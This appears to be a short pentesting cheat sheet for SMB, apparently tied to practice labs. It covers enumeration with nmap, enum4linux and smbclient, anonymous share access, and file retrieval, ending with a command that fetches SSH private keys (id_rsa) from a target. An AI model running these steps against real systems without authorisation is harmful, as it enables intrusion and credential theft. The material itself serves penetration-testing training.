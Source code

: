 ```yaml
---
description: Find and exploit SMB vulnerabilities
---
```


# SMB Pentesting

## Enumeration

### Using nmap

```awk
sudo nmap -sC -sV 10.10.170.245
```

### Using enum4linux

```awk
enum4linux -a 10.10.170.245
```

### Using smbclient

#### List all available shares

```awk
smbclient -N -L \\\\10.129.95.187\\
```

## Exploitation

The smbclient utility and impacket library are two good utilities to exploit SMB vulnerability.

### Using smbclient

Let's say we want to access an SMB share called "secret" as user "suit" on a machine with the IP 10.10.10.2 on the default port

```
smbclient //10.10.10.2/secret -U "suit" -p 445
```

### Anonymous login with empty passwords

#### In general shares

```
smbclient //10.10.96.221/profiles -U ''
smbclient //10.10.96.221/profiles -U 'Anonymous'
```

### Navigating through SMB

#### List all available files

```
smb: \> ls
smb: \> dir
```

#### Get multiple or single files (mget command)

```
smb: \.ssh\> mget id_rsa*
```

